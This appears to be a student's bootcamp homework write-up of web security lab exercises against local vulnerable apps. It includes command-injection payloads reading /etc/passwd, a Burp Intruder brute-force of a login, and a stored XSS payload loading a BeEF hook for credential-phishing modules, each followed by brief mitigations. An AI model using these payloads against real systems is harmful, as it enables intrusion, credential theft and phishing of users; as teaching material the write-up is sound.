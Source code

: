 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `/etc/passwd`

	`8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/passwd.png "cat ../../../../../etc/passwd")

- `/etc/hosts`

	`8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation that does not allow selection of unintended files.​
- Segregation of confidential files from the web server and accessible directories.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/intruder-payloads.png)
 
- Click `Start attack`
 
After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords, using multi-factored authentication, and enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Social Engineering >> Pretty Theft

![Pretty Theft - Facebook](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/pretty-theft.png)

![Pretty Theft - LinkedIn](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/pretty-theft-2.png)

Social Engineering >> Fake Notification Bar

![Fake Notification Bar](https://github.com/rkuruba/Web-Vulnerabilities-and-Hardening/blob/main/images/fake-notification-bar.png)


#### Recommended mitigation strategies

- Input validation is a common method used to mitigate cross-site scripting.
